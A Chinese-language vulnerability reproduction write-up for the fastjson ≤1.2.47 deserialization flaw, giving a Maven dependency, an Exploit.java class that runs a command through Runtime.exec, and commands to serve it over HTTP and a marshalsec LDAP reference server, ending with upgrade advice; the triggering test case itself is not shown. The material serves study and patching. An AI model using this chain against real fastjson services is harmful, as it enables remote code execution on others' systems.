




# fastjson =< 1.2.47 反序列化漏洞复现

> HW期间爆出来一个在hw期间使用的fastjson 漏洞，该漏洞无需开启autoType即可利用成功，建议使用fastjson的用户尽快升级到> 1.2.47版本(保险起见，建议升级到最新版)

## 复现详情


### 环境
- win10
- fastjson 1.2.47
- jdk 1.8.1
- marshalsec

### 环境过程

首先先创建maven项目,下载fastjson版本为`1.2.47`
```
<dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.47</version>
        </dependency>
</dependencies>
```

创建一个`Exploit.java`文件，Java 编译一下生成  Exploit.class 文件

exploit.java内容
```
public class Exploit {

        static {
                System.err.println("Pwned");
                try {
                        String[] cmd = {"calc"};
                        java.lang.Runtime.getRuntime().exec(cmd).waitFor();
                } catch ( Exception e ) {
                        e.printStackTrace();
                }
        }
}
```


然后启动http服务，这边利用python的SimpleHTTPServer来启动。

```
python2 -m SimpleHTTPServer
```


再利用marshalsec转发，创建一个ldap服务器

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit"
```


最后编写了一个测试用例



运行即可触发漏洞。






## 修复意见

尽快将fastjson升级至1.2.48及以上的版本。

